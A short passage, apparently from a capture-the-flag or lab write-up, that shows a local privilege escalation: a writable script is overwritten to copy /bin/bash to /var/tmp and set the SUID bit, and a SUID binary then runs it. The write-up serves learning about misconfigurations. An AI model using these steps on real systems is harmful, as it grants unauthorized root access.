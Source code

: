 
## ⚡ Exploitation

We found `/opt/run_container.sh` is writable. Let's use it to escalate privileges.

1. **Move to /var/tmp:**
   ```bash
   cd /var/tmp
   cp /bin/bash .
   ```

2. **Edit `/opt/run_container.sh`:**
   ```bash
   #! /bin/bash
   cp /bin/bash /var/tmp/bAsh
   chmod +s /var/tmp/bAsh
   ```
   ![Exploit Code](../images/exploit_code.png)

3. **Run the SUID binary:**
   ```bash
   /usr/sbin/run_container
   ```
   ![Exploit Run](../images/exploit.png)
   ![bAsh File](../images/bAsh_file_get.png)
